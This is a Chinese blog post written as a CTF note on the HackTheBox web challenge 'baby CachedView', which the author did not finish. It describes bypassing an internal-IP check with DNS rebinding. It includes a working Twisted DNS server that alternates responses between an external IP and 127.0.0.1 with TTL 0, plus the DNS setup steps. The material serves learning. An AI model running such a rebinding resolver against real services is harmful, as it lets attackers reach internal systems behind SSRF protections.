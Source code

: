 ```yaml
---
title: '[HTB]一道涉及DNS Rebinding attack的题(未做出来)'
date: 2022-01-07 21:56:33
tags: [HTB,web,刷题]
published: true
isTop: false
---
```

# baby CachedView (没做出来)

题目提供的Dockerfile下载cffi的时候报错,需要下载`libcairo2-dev gcc` 
暂时不打算做了.服务器之前白嫖了一个ipv6的小鸡,但是老实说自己不怎么会玩= =好像连ipv6好只能手机下一个`1.1.1.1`的vpn.......弄python环境又费好长时间.太费时间了.主要记录一下思路



![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_1.png)


先看一下代码,是有对应的flag路径的,并且是一个`flag.png `
仔细观察访问/flag的路由处调用的函数(自定义的装饰器) 会发现有一个or的语法
![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_2.png)
cache_web 内部有负责检查json传递的url是否是内网的ip.如果是,就会拒绝访问并提示

![Untitled](baby%20CachedView%20(%E6%B2%A1%E5%81%9A%E5%87%BA%E6%9D%A5)%20643fd77ac8bd473b81f7b05c5c8e09fb/Untitled%202.png)


看截图的代码(这个写的不错,学习了.之前我也用webdriver写过爬虫,没有想到这个方法)

```php
from selenium.webdriver.support.ui import WebDriverWait
WebDriverWait(driver, wait_time).until(lambda r: r.execute_script('return document.readyState') == 'complete')
```

发现即使在api的请求中去掉referrer也会在截图的代码中被识别非本地或有referrer.所以这里要使用一下DNS rebinding的方法(注意 该方法基于TTL为0的基础上,否则会返回缓存即外网地址.ssrf会失败) 

> Since domain owners have complete control of their DNS records, they can resolve their hostnames to arbitrary IP addresses. The DNS rebinding attack abuses this privilege.
> 

以下截图来自defcon的视频截图

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_3.png)

最后我按着先知社区的这个帖子学来的知识去实践(谢谢大佬),[https://xz.aliyun.com/t/7495#toc-5](https://xz.aliyun.com/t/7495#toc-5) 这篇帖子也没有用 前面两个用到的”**Singularity of Origin DNS Rebinding Attack”** 工具,而是自己写了一个,我觉得对于理解也很有用.我跟着帖子以及google学习了一下twisted涉及DNS请求的部分,里面的twsited的代码应该是参考的twisted 16.5.0的document下howto的

用了帖子里的代码(改了一点)

```python
from collections import defaultdict
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server
import logging

RECORD = defaultdict(int)
SOURCE_IP = "178.128.174.129"
TARGET_IP = "127.0.0.1"
KEY_WORD = '2u1e0'

logging.basicConfig(level=logging.INFO,
                    filename="{}.log".format(KEY_WORD),
                    format='%(asctime)s - %(pathname)s[line:%(lineno)d] - %(levelname)s: %(message)s'
                    )

class DynamicResolver(object):
    def _dynamicResponseRequired(self,query):
        # print(query.name.name)
        if KEY_WORD in str(query.name.name):
            return True
        else:
            return False 

    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in RECORD or RECORD[name] % 3 == 0:
            ip = SOURCE_IP
        else:
            ip = TARGET_IP
        RECORD[name] += 1
        
        logging.info("\t[-] {}({}) ===> {}".format(name,RECORD[name],ip))
        answer = dns.RRHeader(
            name = name,
            type = dns.A,
            cls = dns.IN,
            ttl = 0, 
            payload = dns.Record_A(address=ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
    
    def query(self,query,timeout=None):
        if self._dynamicResponseRequired(query):
            return defer.succeed(self._doDynamicResponse(query))
        else:
            
            return defer.fail(error.DomainError())
    

def main():
    factory = server.DNSServerFactory(
        clients = [DynamicResolver(),client.Resolver(resolv='/etc/resolv.conf')]
    )
    protocol = dns.DNSDatagramProtocol(controller=factory)
    reactor.listenUDP(53,protocol)
    reactor.run()

if __name__ == '__main__':
    raise SystemExit(main())
```

一个shell脚本进行测试:

```sh
#!/bin/sh
for ((i=0; i<10; i++));
do
	dig @8.8.8.8 2u1e0.xyz
done
```

还要修改 `/etc/resolv.conf`

同时,在自己购买的域名(刚买的)上进行配置:

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_4.png)

但是还需要加一条NS记录,填自己的的DNS服务器域名........





## Referer

- [https://www.youtube.com/watch?v=y9-0lICNjOQ&list=PLB0iNDIOY78Yno8UgY1j_2kKlrTxZticw](https://www.youtube.com/watch?v=y9-0lICNjOQ&list=PLB0iNDIOY78Yno8UgY1j_2kKlrTxZticw)
- [https://xz.aliyun.com/t/7495#toc-5](https://xz.aliyun.com/t/7495#toc-5)
- [https://twistedmatrix.com/documents/16.5.0/names/howto/custom-server.html](https://twistedmatrix.com/documents/16.5.0/names/howto/custom-server.html)  学习twsited的时候用到的
